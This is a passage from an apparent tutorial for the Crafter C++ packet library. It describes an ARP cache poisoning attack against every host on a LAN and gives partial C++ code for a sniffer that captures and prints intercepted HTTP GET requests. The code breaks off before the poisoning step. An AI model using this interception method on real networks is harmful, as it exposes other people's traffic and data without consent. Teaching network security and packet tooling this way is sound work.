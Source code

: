 The above displayed message is due to the PrintARPContext function. Prints information about the attack.

> After ten seconds, due to the CleanARPContext function call, this message is displayed:

```
[@] Terminating ARPSpoofing. Trying to fix the ARP tables. 
[@] Done cleaning up the ARPSpoofer.
```

In addition to printing this message, the function tries to fix the ARP tables by the same method used to poison them.

# Sniffer + ARP Cache Poisoning #

The next example shows how to sniff HTTP GET requests from an entire LAN by performing an ARP Poisoning attack to every host of the network (we activate the ip forwarding from the program using the `system` call).

```
#include <iostream>
#include <string>
#include <crafter.h>

/* Collapse namespaces */
using namespace std;
using namespace Crafter;

/* Function for handling a packet */
void PacketHandler(Packet* sniff_packet, void* user) {
	/* sniff_packet -> pointer to the packet captured */
	/* user -> void pointer to the data supplied by the user */

	/* Check if there is a payload */
	RawLayer* raw_payload = sniff_packet->GetLayer<RawLayer>();
	if(raw_payload) {

		/* You can get the payload as a string */
		string payload = raw_payload->GetStringPayload();

		/* Print the payload only if the <GET> world is inside */
		if(payload.find("GET") != string::npos) {
			/* Print relevant data from the connection */
			TCP* tcp_layer = sniff_packet->GetLayer<TCP>();
			IP* ip_layer = sniff_packet->GetLayer<IP>();

			cout << ip_layer->GetSourceIP()      << ":" << tcp_layer->GetSrcPort() << " -> " <<
					ip_layer->GetDestinationIP() << ":" << tcp_layer->GetDstPort()
				  << endl << endl;

            /* Print the HTTP request */
			cout << payload << endl;

			cout << "[+] ------- [+]" << endl;
		}

	}
}

/* Global reference of the ARPContext */
ARPContext* global_context;

/* Global reference of the sniffer */
Sniffer* global_sniff;

```